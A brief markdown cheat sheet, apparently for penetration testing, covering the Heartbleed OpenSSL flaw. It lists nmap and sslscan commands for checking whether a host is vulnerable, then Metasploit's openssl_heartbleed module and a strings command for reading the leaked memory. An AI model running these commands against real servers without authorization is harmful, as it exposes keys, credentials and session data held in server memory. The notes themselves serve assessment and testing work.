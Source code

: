 ## Check for Expoit presense
	nmap --script ssl-heartbleed $ip
	sslscan $ip:443
## Exploit
	msf > use auxiliary/scanner/ssl/openssl_heartbleed
		show actions
	strings $output